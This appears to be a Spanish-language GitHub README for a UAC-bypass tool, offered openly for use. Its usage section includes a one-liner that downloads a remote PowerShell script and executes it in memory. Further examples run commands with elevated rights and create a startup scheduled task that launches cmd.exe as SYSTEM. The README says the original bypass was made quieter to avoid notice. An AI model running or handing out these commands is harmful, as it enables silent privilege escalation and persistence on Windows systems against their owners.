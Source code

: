 # Bypass-Uac
Un simple bypass de uac con c# y powershell, creditos al blog de zc00l: https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html, de esta fuente tome el codigo original del bypass de uac y lo mejore para que sea mas silencioso.

# Uso:

Con este codigo cargamos Invoke-UAC dentro de Powershell desde la memoria
```
iex (iwr -UsebasicParsing https://raw.githubusercontent.com/BlackShell256/Bypass-Uac/main/Invoke-UAC.ps1)
```

Ya podemos llamar a Invoke-UAC, dejo unos ejemplos sencillos
```
Invoke-UAC -Executable powershell
```

```
Invoke-UAC -Executable powershell -Command "ls"
```

```
Invoke-UAC -Executable schtasks -Command "/create /tn UAC /tr 'cmd.exe' /sc onstart /ru System"
```

